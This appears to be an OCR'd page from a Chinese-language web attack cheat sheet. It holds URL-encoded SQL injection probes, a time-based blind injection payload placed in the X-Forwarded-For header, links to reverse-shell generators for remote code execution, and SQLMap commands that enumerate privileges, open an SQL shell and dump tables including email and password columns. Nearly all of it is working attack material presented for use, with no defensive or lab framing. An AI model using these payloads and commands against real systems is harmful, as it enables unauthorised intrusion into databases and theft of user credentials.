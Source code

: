 ## SQL 注入‘创意’

```plain
1+OR/AND+1=1 and sELeCt/*Test*/1 and so .

/?id=1%27%20AND%20%271%27=LENGTH(%27;%27)%20--+
/?id=1%27%20AND%20%271%27=LENGTH(%27;;%27)%20--+

/?id=1%27%20AND%20%271%27=STRCMP(%22;%22,%20%22;%22);%20--+
/?id=1%27%20AND%20%271%27=STRCMP(%22;;%22,%20%22;%22);%20--+

/?id=1%27%20AND%20%271%27=(sELecT%20@LOL:=1)%20--+
/?id=1%27%20AND%20%271%27=(sELecT%20@LOL:=12)%20--+

#SQL 盲注 与 绕过：
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

#从 SQL 注入到 RCE：
https://systemweakness.com/sql-injection-to-remote-command-execution-rce-dd9a75292d1d
```

## RCE

https://www.revshells.com/  
  
https://www.100security.com.br/reverse-shell  
  
https://4bdoz.medium.com/rce-by-code-injection-perl-reverse-shell-a2e90181b10

## 常用 SQLMap 命令

```plain
https://github.com/sqlmapproject/sqlmap/wiki/Usage


sqlmap.py -u [URL]?[Param]=* dbms
sqlmap.py -u [URL]?[Param]=* dbms --cookie 'ASP.NET_SessionId=abc123'

sqlmap.py -u [URL]?[Param]=1 dbms --level=2,3,4,5

sqlmap.py -u [URL]?[Param]=1 --privileges

sqlmap.py -u [URL]?[Param]=1 --tables --fresh-queries
sqlmap.py -u [URL]?[Param]=1 --sql-shell

sqlmap.py -u [URL]?[Param]=1 -D [database_name] -T [table_name] --columns  --fresh-queries
sqlmap.py -u [URL]?[Param]=1 -D [database_name] -T [table_name] -C email,nome,senha --dump --fresh-queries

sqlmap.py -u [URL]?[Param]=1 -D [database_name] -T [table_name] --dump --predict-output

----

batch:
sqlmap.py -my \temp\sqlmap_targets.txt dbms
```
